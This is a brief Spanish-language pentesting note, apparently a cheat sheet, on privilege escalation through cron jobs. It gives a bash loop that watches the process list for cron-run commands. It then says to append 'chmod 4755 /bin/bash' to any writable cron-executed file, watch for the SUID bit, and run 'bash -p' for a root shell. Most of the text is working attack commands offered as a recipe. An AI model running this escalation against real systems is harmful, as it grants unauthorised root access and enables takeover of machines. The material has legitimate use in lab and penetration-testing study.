 # Explotación de tareas Cron

Mediante el siguiente script podemos ver las tareas de cron que se estan ejecutando.
```
#!/bin/bash

old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff >(echo "$old_process") >(echo "$new_process") | grep "[\>\<]" | grep -v "worker"
        old_process=$new_process
done
```
Una vez identificados los archivos que ejecuta, comprobamos si en alguno tenemos permisos de escritura.
Si el archivo que ejecuta la tarea cron tiene permisos de escritura podremos editar dicho archivo y escribir en el que se ejecute el comando:
```
chmod 4755 /bin/bash
```
Mediante el siguiente comando comprobaremos cuando se ha ejecutado.
```
watch -n 1 ls -l /bin/bash
```
Este comando nos muestra el resultado del comando "ls -l /bin/bash" cada segundo.
Una vez se ha ejecutado y el archivo tiene permiso suid ejecutamos el comando bash -p y se spawneará un bash como root.
